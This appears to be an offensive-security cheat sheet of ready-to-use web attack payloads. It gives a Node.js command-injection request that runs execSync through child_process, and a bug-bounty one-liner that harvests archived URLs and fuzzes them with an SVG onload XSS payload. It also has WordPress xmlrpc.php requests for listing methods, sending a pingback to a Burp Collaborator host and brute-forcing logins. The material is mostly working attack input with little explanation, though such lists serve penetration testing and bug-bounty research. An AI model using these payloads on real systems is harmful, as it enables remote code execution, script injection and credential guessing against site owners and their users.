 ### Node.js
##### `node.js calculate() rce with json body`
```http
POST /api/activity HTTP/1.1
Host: vuln-web.io
[...]

{"activity":"sleep'+(global.process.mainModule.require('child_process').execSync('sleep 10'))+'","health":"63","weight":"42","happiness":"56"}

```

# One liner BugBounty

### XSS finder
```bash
waybackurls test.com | tee test.com-urls.txt | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace '"><svg/onload=confirm(1)>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<svg/onload=confirm(1)>" && echo -e "$host \e[31m Vulnerable\n" || echo -e "$host \e[32m Not Vulnerable\n";done 
```

# CMS exploitation

### Wordpress
------------------------------------
#### basic enumeration on `xmlrpc.php` file - (if enabled)

`list all methods`
```xml
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
`send a pingback request`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://hash.burpcollaborator.net</string></value>
</param><param><value><string>http://vulnerable-site.com</string>
</value></param></params>
</methodCall>
```
`username & password bruteforce`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
-------------------------------------